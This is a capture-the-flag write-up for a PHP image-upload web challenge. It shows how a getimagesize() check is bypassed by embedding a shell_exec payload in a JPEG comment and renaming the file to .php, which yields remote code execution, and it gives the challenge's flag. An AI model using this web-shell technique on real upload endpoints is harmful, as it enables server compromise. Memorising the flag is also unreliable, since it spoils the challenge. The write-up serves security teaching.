 # image.php

* **Category:** Web
* **Points:** 300

## Challenge
http://appventure.nushigh.edu.sg:15590/

Here's an image editor software I made, I think its super secure since you can only upload images.

## Solution
The URL links to a image upload web application.
Viewing the [source](http://128.199.242.14:15590/upload.php?source),
we can see that the code saves the uploaded file to an uploads directory:
```php
// no overwriting files here because basename ONLY strips paths
$target_resized_file = "uploads/".basename($file_name);
$ok = rename($file_tmp_result_name, $target_resized_file);
```
It also checks that the uploaded file is actually an image.
```php
$check = getimagesize($file_tmp_name);
```
Luckily, [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) seems to have some vulnerabilities,
and php docs even warns against its use for image validation:

> Do not use getimagesize() to check that a given file is a valid image. Use a purpose-built solution such as the Fileinfo extension instead.

Uploading an image shows that files are saved to a directory in the webroot.  
Changing the extension of an image to php isn't blocked, and the image displays as usual.  
Most web servers will execute files ending in .php in the webroot. This provides a vector for us to execute our code.  
With some searching, I found a [method](https://security.stackexchange.com/a/53966) for hiding PHP code in a jpeg image.  
It involves manipulation of the JPEG EXIF metadata to add code in the comments field.

### Execution
With this information, we can formulate the exploit.
I used a random JPEG image:
![cat](cat.jpeg)

To edit the JPEG headers, I used [jhead](http://www.sentex.net/~mwandel/jhead/).  
Executing `./jhead -ce cat.jpeg` allows for editing of the JPEG comment.

I used this PHP payload:
```php
<?php echo shell_exec("ls"); __halt_compiler();
```
The `__halt_compiler()` prevents the execution of JPEG data which messes stuff up.  
Reading the modified JPEG file, we can see that our payload is in the JPEG metadata:
```
▒▒▒▒JFIFHH▒▒1<?php echo shell_exec("ls"); __halt_compiler();▒▒ICC_PROFILE                                                                                                                ▒?Q!▒)▒2;▒FQw]▒kpz▒▒▒|▒i▒}▒▒▒0▒▒▒▒▒
...
```

I also had to change the extension of the file from `.jpeg` to `.php` so that the webserver executes our payload.  
The modified image is at [cat.jpeg.php]():
![cat.jpeg.php](cat.jpeg.php)  
The image still loads as normal, so all is good.

Uploading the file and opening the URL in a browser produces:
```
����JFIFHH��1;%0Als -al;.jpg cantcommunicate.png cat.jpeg.php communicate.png file.jpg.php flag.php owowhatsthis.JPG poster.jpg test.jpeg test.jpeg.php test.php
```
This shows a listing of all the files in the current directory, so our exploit worked!  
Once we have a successful code execution payload, it is trivial to modify the payload to locate and read the flag file.

## Flag
`NUSHCTF{D0nt_Upload_Into_Webro0t}`
